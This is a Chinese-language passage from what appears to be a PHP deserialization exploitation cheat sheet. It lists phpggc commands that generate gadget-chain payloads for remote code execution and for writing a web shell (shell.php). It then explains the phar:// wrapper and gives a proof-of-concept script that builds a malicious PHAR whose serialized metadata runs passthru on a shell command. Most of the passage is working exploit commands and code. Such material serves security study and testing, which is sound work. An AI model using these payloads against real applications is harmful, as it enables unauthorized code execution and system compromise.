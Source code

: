 [ambionics/phpggc](https://github.com/ambionics/phpggc) 是一个基于多个框架生成有效载荷的工具：

* Laravel
* Symfony
* SwiftMailer
* Monolog
* SlimPHP
* Doctrine
* Guzzle

```powershell
phpggc monolog/rce1 'phpinfo();' -s
phpggc monolog/rce1 assert 'phpinfo()'
phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
phpggc Monolog/RCE2 system 'id' -p phar -o /tmp/testinfo.ini
```

## Phar 反序列化

使用 `phar://` 封装器，可以在指定文件上触发反序列化，如 `file_get_contents("phar://./archives/app.phar")`。

有效的 PHAR 包括四个元素：

1. **存根**: 存根是一段 PHP 代码，在文件以可执行上下文访问时执行。存根的最低要求是在其末尾包含 `__HALT_COMPILER();`。否则，存根的内容没有任何限制。
2. **清单**: 包含有关存档及其内容的元数据。
3. **文件内容**: 包含存档中的实际文件。
4. **签名**(可选): 用于验证存档的完整性。

* 示例：为了利用自定义的 `PDFGenerator` 创建一个 PHAR。

    ```php
    <?php
    class PDFGenerator { }

    // 创建一个新的 Dummy 类实例并修改其属性
    $dummy = new PDFGenerator();
    $dummy->callback = "passthru";
    $dummy->fileName = "uname -a > pwned"; // 我们的有效载荷

    // 删除任何同名的现有 PHAR 存档
    @unlink("poc.phar");

    // 创建一个新的存档
    $poc = new Phar("poc.phar");

    // 将所有写操作添加到缓冲区，而不会修改磁盘上的存档
    $poc->startBuffering();

    // 设置存根
    $poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");

    /* 在存档中添加一个新文件，内容为 "text" */
    $poc["file"] = "text";
    // 将 Dummy 对象添加到元数据中。这将被序列化
    $poc->setMetadata($dummy);
    // 停止缓冲并将更改写入磁盘
    $poc->stopBuffering();
    ?>
    ```
